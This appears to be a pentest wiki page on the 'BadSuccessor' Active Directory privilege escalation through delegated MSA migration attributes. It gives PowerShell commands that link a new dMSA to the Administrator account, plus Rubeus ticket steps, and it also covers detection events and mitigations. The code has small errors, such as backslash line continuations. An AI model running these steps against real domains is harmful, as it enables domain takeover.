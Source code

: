 # BadSuccessor: Privilege Escalation via Delegated MSA Migration Abuse

## Overview

Delegated Managed Service Accounts (**dMSA**) are the next-generation successor of **gMSA** that ship in Windows Server 2025.  A legitimate migration workflow allows administrators to replace an *old* account (user, computer or service account) with a dMSA while transparently preserving permissions.  The workflow is exposed through PowerShell cmdlets such as `Start-ADServiceAccountMigration` and `Complete-ADServiceAccountMigration` and relies on two LDAP attributes of the **dMSA object**:

* **`msDS-ManagedAccountPrecededByLink`** – *DN link* to the superseded (old) account.
* **`msDS-DelegatedMSAState`**       – migration state (`0` = none, `1` = in-progress, `2` = *completed*).

If an attacker can create **any** dMSA inside an OU and directly manipulate those 2 attributes, LSASS & the KDC will treat the dMSA as a *successor* of the linked account.  When the attacker subsequently authenticates as the dMSA **they inherit all the privileges of the linked account** – up to **Domain Admin** if the Administrator account is linked.

This technique was coined **BadSuccessor** by Unit 42 in 2025.  At the time of writing **no security patch** is available; only hardening of OU permissions mitigates the issue.

### Attack prerequisites

1. An account that is *allowed* to create objects inside **an Organizational Unit (OU)** *and* has at least one of:
   * `Create Child` → **`msDS-DelegatedManagedServiceAccount`** object class
   * `Create Child` → **`All Objects`** (generic create)
2. Network connectivity to LDAP & Kerberos (standard domain joined scenario / remote attack).

## Enumerating Vulnerable OUs

Unit 42 released a PowerShell helper script that parses security descriptors of each OU and highlights the required ACEs:

```powershell
Get-BadSuccessorOUPermissions.ps1 -Domain contoso.local
```

Under the hood the script runs a paged LDAP search for `(objectClass=organizationalUnit)` and checks every `nTSecurityDescriptor` for

* `ADS_RIGHT_DS_CREATE_CHILD` (0x0001)
* `Active Directory Schema ID: 31ed51fa-77b1-4175-884a-5c6f3f6f34e8` (object class *msDS-DelegatedManagedServiceAccount*)

## Exploitation Steps

Once a writable OU is identified the attack is only 3 LDAP writes away:

```powershell
# 1. Create a new delegated MSA inside the delegated OU
New-ADServiceAccount -Name attacker_dMSA \
                     -DNSHostName host.contoso.local \
                     -Path "OU=DelegatedOU,DC=contoso,DC=com"

# 2. Point the dMSA to the target account (e.g. Domain Admin)
Set-ADServiceAccount attacker_dMSA -Add \
    @{msDS-ManagedAccountPrecededByLink="CN=Administrator,CN=Users,DC=contoso,DC=com"}

# 3. Mark the migration as *completed*
Set-ADServiceAccount attacker_dMSA -Replace @{msDS-DelegatedMSAState=2}
```

After replication the attacker can simply **logon** as `attacker_dMSA$` or request a Kerberos TGT – Windows will build the token of the *superseded* account.

### Automation

Several public PoCs wrap the entire workflow including password retrieval and ticket management:

* SharpSuccessor (C#) – [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
* BadSuccessor.ps1 (PowerShell) – [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
* NetExec module – `badsuccessor` (Python) – [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)

### Post-Exploitation

```powershell
# Request a TGT for the dMSA and inject it (Rubeus)
Rubeus asktgt /user:attacker_dMSA$ /password:<ClearTextPwd> /domain:contoso.local
Rubeus ptt /ticket:<Base64TGT>

# Access Domain Admin resources
dir \\DC01\C$
```

## Detection & Hunting

Enable **Object Auditing** on OUs and monitor for the following Windows Security Events:

* **5137** – Creation of the **dMSA** object
* **5136** – Modification of **`msDS-ManagedAccountPrecededByLink`**
* **4662** – Specific attribute changes
  * GUID `2f5c138a-bd38-4016-88b4-0ec87cbb4919` → `msDS-DelegatedMSAState`
  * GUID `a0945b2b-57a2-43bd-b327-4d112a4e8bd1` → `msDS-ManagedAccountPrecededByLink`
* **2946** – TGT issuance for the dMSA

Correlating `4662` (attribute modification), `4741` (creation of a computer/service account) and `4624` (subsequent logon) quickly highlights BadSuccessor activity.  XDR solutions such as **XSIAM** ship with ready-to-use queries (see references).

## Mitigation

* Apply the principle of **least privilege** – only delegate *Service Account* management to trusted roles.
* Remove `Create Child` / `msDS-DelegatedManagedServiceAccount` from OUs that do not explicitly require it.
* Monitor for the event IDs listed above and alert on *non-Tier-0* identities creating or editing dMSAs.

## See also

[[golden-dmsa-gmsa.md]]

## References

- [Unit42 – When Good Accounts Go Bad: Exploiting Delegated Managed Service Accounts](https://unit42.paloaltonetworks.com/badsuccessor-attack-vector/)
- [SharpSuccessor PoC](https://github.com/logangoins/SharpSuccessor)
- [BadSuccessor.ps1 – Pentest-Tools-Collection](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
- [NetExec BadSuccessor module](https://github.com/Pennyw0rth/NetExec/blob/main/nxc/modules/badsuccessor.py)

